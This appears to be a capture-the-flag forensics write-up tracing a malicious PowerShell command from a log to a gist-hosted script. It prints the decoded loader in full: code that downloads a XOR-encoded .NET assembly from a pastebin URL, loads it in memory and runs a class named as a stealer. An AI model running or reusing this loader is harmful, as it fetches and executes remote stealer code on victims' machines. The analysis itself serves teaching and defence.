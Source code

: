 Check the Powershell log, we see the suspicious activity

![image]({{ site.url }}/assets/qual_cscv25/NostalgiaS/1.png)

The command download and execute a file from `https://gist.githubusercontent.com/oumazio/fdd0b2711ab501b30b53039fa32bc9ca/raw/ca4f9da41c5c64b3b43f4b0416f8ee0d0e400803/secr3t.txt`

Access it we have

![image]({{ site.url }}/assets/qual_cscv25/NostalgiaS/2.png)

We see that the code execute the script which is decoded and decompress. Let's extract it

![image]({{ site.url }}/assets/qual_cscv25/NostalgiaS/3.png)

```powershell
$AssemblyUrl = "https://pastebin.com/raw/90qeYSHA"
$XorKey = 0x24
$TypeName = "StealerJanai.core.RiderKick"
$MethodName = "Run"

try {
    $WebClient = New-Object System.Net.WebClient
    $encodedContent = $WebClient.DownloadString($AssemblyUrl)
    $WebClient.Dispose()
    
    $hexValues = $encodedContent.Trim() -split ',' | Where-Object { $_ -match '^0x[0-9A-Fa-f]+$' }
    
    $encodedBytes = New-Object byte[] $hexValues.Length
    for ($i = 0; $i -lt $hexValues.Length; $i++) {
        $encodedBytes[$i] = [Convert]::ToByte($hexValues[$i].Trim(), 16)
    }
    
    $originalBytes = New-Object byte[] $encodedBytes.Length
    for ($i = 0; $i -lt $encodedBytes.Length; $i++) {
        $originalBytes[$i] = $encodedBytes[$i] -bxor $XorKey
    }
    
    $assembly = [System.Reflection.Assembly]::Load($originalBytes)
    
    if ($TypeName -ne "" -and $MethodName -ne "") {
        $targetType = $assembly.GetType($TypeName)
        $methodInfo = $targetType.GetMethod($MethodName, [System.Reflection.BindingFlags]::Static -bor [System.Reflection.BindingFlags]::Public)
        $methodInfo.Invoke($null, $null)
    }
    
} catch {
    exit 1
}
```

After access the pastebin link, we know that it contain hex list. The code builds a byte array and xor byte with `0x24`, load it as a .NET assembly in memory and invoke.
